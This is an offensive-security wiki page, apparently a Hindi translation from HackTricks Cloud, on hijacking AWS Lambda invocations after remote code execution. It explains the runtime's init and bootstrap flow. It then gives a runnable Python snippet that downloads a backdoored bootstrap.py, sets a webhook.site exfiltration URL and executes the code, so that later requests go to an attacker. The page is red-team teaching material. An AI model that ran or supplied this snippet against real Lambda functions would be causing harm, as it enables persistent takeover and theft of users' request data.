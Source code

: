 # AWS - Steal Lambda Requests

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर **init** प्रक्रिया को **invocations** भेजती है।
2. init प्रक्रिया पोर्ट **9001** पर सुनती है और कुछ दिलचस्प endpoints को उजागर करती है:
* **`/2018-06-01/runtime/invocation/next`** – अगला invocation इवेंट प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke के लिए हैंडलर प्रतिक्रिया लौटाएं
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक निष्पादन त्रुटि लौटाएं
3. **bootstrap.py** में एक लूप होता है जो init प्रक्रिया से invocations प्राप्त करता है और उन्हें संभालने के लिए उपयोगकर्ता के कोड को कॉल करता है (**`/next`**).
4. अंत में, **bootstrap.py** init को **response** भेजता है

ध्यान दें कि bootstrap उपयोगकर्ता के कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता के कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda Requests चुराना

इस हमले का लक्ष्य उपयोगकर्ता के कोड को एक दुर्भावनापूर्ण **`bootstrap.py`** प्रक्रिया को निष्पादित करना है जो कमजोर अनुरोध को संभालने वाली **`bootstrap.py`** प्रक्रिया के अंदर है। इस तरह, **दुर्भावनापूर्ण bootstrap** प्रक्रिया **init प्रक्रिया** के साथ बात करना शुरू कर देगी ताकि अनुरोधों को संभाला जा सके जबकि **वैध** bootstrap **फंसा हुआ** रहेगा और दुर्भावनापूर्ण प्रक्रिया को चलाएगा, इसलिए यह init प्रक्रिया से अनुरोध नहीं करेगा।

यह एक सरल कार्य है क्योंकि उपयोगकर्ता का कोड वैध **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित किया जा रहा है। इसलिए हमलावर कर सकता है:

* **वर्तमान invocation का नकली परिणाम init प्रक्रिया को भेजें**, ताकि init को लगे कि bootstrap प्रक्रिया अधिक invocations की प्रतीक्षा कर रही है।
* एक अनुरोध **`/${invoke-id}/response`** पर भेजा जाना चाहिए
* invoke-id को वैध **`bootstrap.py`** प्रक्रिया के स्टैक से [**inspect**](https://docs.python.org/3/library/inspect.html) python मॉड्यूल का उपयोग करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py) किया गया है) या बस इसे फिर से **`/2018-06-01/runtime/invocation/next`** पर अनुरोध करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py) किया गया है)।
* एक दुर्भावनापूर्ण **`boostrap.py`** निष्पादित करें जो अगले invocations को संभालेगा
* गुप्तता के उद्देश्यों के लिए, lambda invocations पैरामीटर को हमलावर द्वारा नियंत्रित C2 पर भेजना और फिर अनुरोधों को सामान्य रूप से संभालना संभव है।
* इस हमले के लिए, सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से **`bootstrap.py`** का मूल कोड प्राप्त करना, दुर्भावनापूर्ण कोड जोड़ना और इसे वर्तमान lambda invocation से चलाना पर्याप्त है।

### हमले के चरण

1. एक **RCE** भेद्यता खोजें।
2. एक **दुर्भावनापूर्ण** **bootstrap** उत्पन्न करें (उदा. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **दुर्भावनापूर्ण bootstrap** निष्पादित करें।

आप आसानी से इन क्रियाओं को चलाकर कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## संदर्भ

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* **शामिल हों** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) या **हमें फॉलो करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर।**
* **हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

